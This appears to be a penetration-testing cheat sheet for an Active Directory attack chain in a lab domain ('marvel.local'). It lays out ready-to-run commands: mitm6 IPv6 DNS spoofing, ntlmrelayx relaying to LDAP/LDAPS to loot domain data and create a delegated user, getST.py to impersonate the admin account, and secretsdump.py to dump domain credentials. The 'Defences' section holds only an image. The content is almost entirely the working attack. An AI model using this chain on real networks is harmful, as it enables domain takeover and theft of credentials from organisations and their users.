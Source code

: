- - -
**[ this attack in not limited to ldap ]**
- - -
### We need this : 

```sh
git clone https://github.com/dirkjanm/mitm6.git ; cd mitm6/ ; pip install .
```

- - -
## Attacking Steps ( 1 ):  

```
python3 mitm6.py -d marvel.local 
```

```sh

# For 'Ldap-secure', Don't remove “wpad”
ntlmrelayx.py -6 -t ldaps://10.10.10.10 -wh fakewpad.marvel.local -l lootme


# For 'Ldap-insecure', Don't remove “wpad”
ntlmrelayx.py -6 -t ldap://10.10.10.10 -wh fakewpad.marvel.local -l lootme 
```

Once we are authenitcated against the DC we gather data and dump into lootme directory 

```sh
cd lootme/ 
```

Now use bloodhound ( for **json** ) **or** firefox ( for **html** ).

- - -
## Attacking Steps ( 2 ) : 

Blog Link : [here](https://medium.com/@browninfosecguy/ipv6-exploitation-in-ad-environment-b22a7c3ec8af)

```sh
sudo mitm6 -i eth0 -d covid.inc -hw <hostname> 
```

```sh
sudo ntlmrelayx.py -t ldaps://10.10.10.10 — delegate-access — no-smb-server -wh attacker-wpad 
```

Once the authentication against the DC succeed, it goes ahead with creation of new user on DC

- - -
## After Success in Attack : 

Once we have succeded to add a new user on DC. 
we will be impersonating the user **admin**.

```python
getST.py -spn cifs/internal.marvel.local  marvel.local/<new-user>  impersonate admin 
```

```sh
export KRB5CCNAME=admin.ccache 
```

```python
secretsdump.py -k -no-pass internal.marvel.local 
```

- - -
### Defences : 

![Imgur](https://i.imgur.com/KbM5XAs.jpg)

- - -

